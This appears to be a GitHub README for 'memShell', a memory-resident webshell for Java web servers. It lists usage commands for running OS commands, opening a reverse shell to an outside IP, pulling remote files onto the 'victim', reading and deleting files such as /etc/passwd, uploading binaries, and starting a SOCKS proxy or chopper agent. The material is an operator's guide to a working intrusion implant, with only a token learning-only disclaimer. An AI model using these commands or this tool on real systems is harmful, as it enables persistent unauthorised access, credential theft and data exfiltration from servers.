 # memShell
a webshell resides in the memory of java web server

#Usage
anyurl?pwd=pass //show this help page.
anyurl?pwd=pass&model=exec&cmd=whoami  //run os command.
anyurl?pwd=pass&model=connectback&ip=8.8.8.8&port=51 //reverse a shell back to 8.8.8.8 on port 51.
anyurl?pwd=pass&model=urldownload&url=http://xxx.com/test.pdf&path=/tmp/test.pdf //download a remote file via the victim's network directly.
anyurl?pwd=pass&model=list[del|show]&path=/etc/passwd  //list,delete,show the specified path or file.
anyurl?pwd=pass&model=download&path=/etc/passwd  //download the specified file on the victim's disk.
anyurl?pwd=pass&model=upload&path=/tmp/a.elf&content=this_is_content[&type=b]   //upload a text file or a base64 encoded binary file to the victim's disk.
anyurl?pwd=pass&model=proxy  //start a socks proxy server on the victim.
anyurl?pwd=pass&model=chopper  //start a chopper server agent on the victim.

#note
For learning exchanges only, do not use for illegal purposes.by rebeyond.
